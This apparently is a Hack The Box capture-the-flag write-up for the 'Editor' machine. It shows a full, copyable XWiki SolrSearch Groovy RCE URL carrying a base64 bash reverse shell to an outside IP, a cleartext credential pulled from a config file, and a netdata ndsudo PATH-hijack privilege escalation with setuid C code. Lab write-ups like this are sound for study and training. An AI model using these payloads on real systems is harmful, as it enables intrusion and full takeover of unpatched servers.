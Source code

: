 # Editor : Walkthrough

## nmap
We were given the ip `10.10.11.80` from htb. So lets drop an nmap on it.\
![img](ss/nmap.png)\
From this we can see that there are web-servers running, lets try visiting it.\
![img](ss/error.png)\
so lets add `editor.htb` in `/etc/hosts` so do :\
`sudo nano /etc/hosts`\
and write the following at the end and save and exit. (ctrl O and ctrl X)\
![img](ss/hosts.png)\
Lets refresh now\
![img](ss/site.png)\
However i dont think this one has much to offer. So lets try visiting the port `8080`.\
And yes we got an xwiki page. And looks like the version is `15.10.8` \
![img](ss/xwikiversion.png)\
After googling found that there is an RCE vuln available for it through the `Solrsearch` macro.\
![img](ss/xwikigoogle.png)\
![img](ss/cve.png)\
with all these information, its clear what we have to do now. Get an RCE and then obtain a reverse shell.\
So i decided to try the macro for the vulnerability with this PoC i found earlier.\
![img](ss/solrcmd.png)\
Then i pasted that in the url here:\
![img](ss/solrurl.png)\
Which ran without any error and gave me the output file with the `Hello from search` in it. Which confirms the existence of the RCE. So all we need to do is write a payload and get a reverse shell.\
Which I did by following the below steps:
- Simple bash rev shell
	- `bash -i >& /dev/tcp/10.10.16.75/4444 0>&1`
- Encoding to Base64
	- `echo -n 'bash -i >& /dev/tcp/10.10.16.75/4444 0>&1' | base64`
	- U get similiar output: `YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi43NS80NDQ0IDA+JjEK`
- Wrap it in groovy
	- `"bash -c {echo,BASE64_STRING}|{base64,-d}|{bash,-i}".execute()`
- Wrap in Xwiki syntax:
	-  ```
		{{async async=false}}{{groovy}}
		"OUR_COMMAND".execute()
		{{/groovy}}{{/async}}
		```

After all that, we end up with something like this:
- `http://editor.htb:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text={{async%20async%3Dfalse}}{{groovy}}%22bash%20-c%20{echo%2CYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNi43NS80NDQ0IDA%2BJjEKfQ%3D%3D}|{base64%2C-d}|{bash%2C-i}%22.execute(){{%2Fgroovy}}{{%2Fasync}}%22`

Then we get the listener running and use this url ( U can also use curl )\
![img](ss/nc.png)\
Now, we got the rev shell.\
Now time for some foothold.

`cat /etc/passwd` gave us this:
```bash
<snip>
netdata:x:996:999:netdata:/opt/netdata:/usr/sbin/nologin
oliver:x:1000:1000:,,,:/home/oliver:/bin/bash
<snip>
```
from this, we can assume that our user foothold is oliver. or we can just use `ls /home`\
Now lets try to look for some creds.\
After some hours of searching, i found the creds in `/etc/xwiki/hibernate.cfg.xml`\
![img](ss/pass.png)\
And now we try to ssh into `oliver` with `theEd1t0rTeam99`, and BOOM..! we got in\
![img](ss/ssho.png)\
And with that , we get the user.txt\
Now for privilege escalation,\
I checked the `id` and found something interesting: `netdata` \
![img](ss/oid.png)\
So to check whether netdata is running and to check for ports, i ran:
- `ps aux | grep -i backrest`
- `ss -tulpn 2>/dev/null | grep -i backrest || ss -tulpn 2>/dev/null | grep -E '127.0.0.1|localhost'`

![img](ss/netdata.png)\
when i ran `find / -perm -4000 -user root -type f 2>/dev/null`, one of the output caught my eye.\
![img](ss/perm.png)\
the line `/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo` along with the group of `netdata` made it stand out more. So i assumed that this is prolly my attack vector and checked its perms with `ll /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo`
\
![img](ss/llndsudo.png)\
Now with that... i was certain that THIS is my attack point. So i checked the help option of ndsudo.\
`/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo -h`\
![img](ss/ndsudoh.png)\
Alright now we know what commands it runs... so lets make a duplicate `nvme` with our payload to escalate and let it run with `.../ndsudo nvme-list`.\
So lets do it.\\
```bash
mkdir /tmp/exp
cat <<'EOF' >/tmp/exp/nvme
#!/bin/bash
echo "launching exploit...."
/bin/bash
EOF

chmod +x /tmp/exp/nvme
```
![img](ss/fnvmell.png)\
now we should add our fake `nvme`'s path to `$PATH` \
`export PATH=/tmp/exp:$PATH` \
Now we can just check it via `which nvme`.\
![img](ss/path.png)\
Now lets get that root shell with `/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list`.\
![img](ss/ndsudofail.png)\
There seems to be something wrong.... As we can see it IS our exploit which is being run because we can see out `launching exploit...` string we entered. \
But we still didnt get a root shell. So lets try one more thing, use `C` and use the `setuid` and `setgid` fns in it.\
So lets make a new `nvme` with it.
```c
#include<unistd.h>
#include<stdlib.h>
int main(){
	setuid(0);
	setgid(0);
	execl("/bin/bash","bash",NULL);
	return 0;
}
```
Lets write this on out attackbox and compile it and then put it into `/tmp/exp` of `editor` then run it.\
![img](ss/nanonvme.png)\
Now lets start a python server to send it to `editor`\
`python3 -m http.server`\
![img](ss/pyth.png)\
Now lets get that `nvme`.\
![img](ss/wget.png)\
![img](ss/llnvme.png)\
After doing checks and giving permissions, lets run it.\
![img](ss/root.png)\
And like that... We have rooted the box `Editor`.


#### Read more of my writeups [here](https://github.com/6cloudguy/box-writeups)
